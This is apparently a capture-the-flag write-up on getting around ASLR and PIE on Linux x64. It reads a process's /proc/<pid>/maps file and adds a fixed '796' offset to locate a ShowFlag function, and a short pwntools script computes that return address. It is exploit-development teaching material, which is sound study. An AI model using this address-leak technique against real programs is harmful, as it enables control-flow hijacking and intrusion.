 ### Cheating our way to ASLR & PIE defeat

The following isn't exactly an ASLR / PIE defeat, however it may provide a workaround for a user with insufficient privilege to turn ASLR completely off. I came across this information when studying the [this BH'16 presentation (PDF)](https://www.blackhat.com/docs/asia-16/materials/asia-16-Marco-Gisbert-Exploiting-Linux-And-PaX-ASLRS-Weaknesses-On-32-And-64-Bit-Systems.pdf) Unfortunately, I couldn't quite figure out how to 'offset2libc' - I'm not sure if it is possible or not.

In our environment (Linux, x64) each process that gets created on our system writes a memory map to /proc/{pid}/maps, and the contents of a typical map file shows the memory locations like this:
	
```
# cat /proc/<pid>/maps
559a640a2000-559a640a3000 r-xp 00000000 fe:00 1049104                    /jim/binary
559a642a2000-559a642a3000 r--p 00000000 fe:00 1049104                    /jim/binary
559a642a3000-559a642a4000 rw-p 00001000 fe:00 1049104                    /jim/binary
559a6443d000-559a6445e000 rw-p 00000000 00:00 0                          [heap]
7f4be2b50000-7f4be2d01000 r-xp 00000000 fe:00 846058                     /lib/x86_64-linux-gnu/libc-2.27.so
7f4be2d01000-7f4be2f00000 ---p 001b1000 fe:00 846058                     /lib/x86_64-linux-gnu/libc-2.27.so
7f4be2f00000-7f4be2f04000 r--p 001b0000 fe:00 846058                     /lib/x86_64-linux-gnu/libc-2.27.so
7f4be2f04000-7f4be2f06000 rw-p 001b4000 fe:00 846058                     /lib/x86_64-linux-gnu/libc-2.27.so
7f4be2f06000-7f4be2f0a000 rw-p 00000000 00:00 0 
7f4be2f0a000-7f4be2f2f000 r-xp 00000000 fe:00 846054                     /lib/x86_64-linux-gnu/ld-2.27.so
7f4be30fe000-7f4be3100000 rw-p 00000000 00:00 0 
7f4be312e000-7f4be312f000 r--p 00024000 fe:00 846054                     /lib/x86_64-linux-gnu/ld-2.27.so
7f4be312f000-7f4be3130000 rw-p 00025000 fe:00 846054                     /lib/x86_64-linux-gnu/ld-2.27.so
7f4be3130000-7f4be3131000 rw-p 00000000 00:00 0 
7ffd9e426000-7ffd9e447000 rw-p 00000000 00:00 0                          [stack]
7ffd9e589000-7ffd9e58c000 r--p 00000000 00:00 0                          [vvar]
7ffd9e58c000-7ffd9e58e000 r-xp 00000000 00:00 0                          [vdso]
```

Each portion of the binary is in a random location. The PIE flag also allows the libc and ld (linker) references to be randomized also. Again, using automation it is possible to read this at runtime (from a low privileged account)

However, because only certain parts of the binary's memory location are randomized, we can trust that the ShowFlag always sits at the same _offset_

In the previous example we saw that the 3 lowest order bits in the ShowFlag memory location were '796'. This is always the case, no matter what the execution protection is doing.

So, we can leverage the maps file to do the following:

```python
#!/usr/bin/python2

import pwn

#create a tube to the binary
proc = pwn.process('./binary')
#retrieve the pid
pid = proc.pid
#we know that the location of the ShowFlag func *always* ends in 796
magic='796'
#open the PIDs maps file and
maps = open('/proc/'+str(pid)+'/maps', 'r').read()
#pinch the actual memory location (first 9 chars)
desired_ret = int('0x'+ maps[0:9] + magic, 16)
print 'desired ret: ' + hex(desired_ret)
```